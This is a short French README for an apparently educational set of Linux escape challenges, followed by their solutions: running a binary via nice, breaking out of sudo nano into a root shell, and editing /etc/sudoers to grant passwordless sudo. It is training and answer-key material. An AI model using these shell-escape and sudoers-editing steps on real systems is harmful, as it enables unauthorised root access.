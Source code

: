 # escapist

Pour lancer le premier challenge : sudo ./Challengex.sh

L'objectif est de réussir à exécuter le binaire "escape" dans chaque épreuve









# Solution

Challenge 1 : nice /bin/escape 

Challenge 2 : sudo /usr/bin/nano readme 
	      ctrl+r ctrl+x 
	      reset; bash 1>&0 2>&0
		puis exécuter bin/escape

OU sudo /usr/bin/nano /etc/sudoers et modifier : PrivEscape ALL=(ALL) NOPASSWD:ALL puis exécuter bin/escape
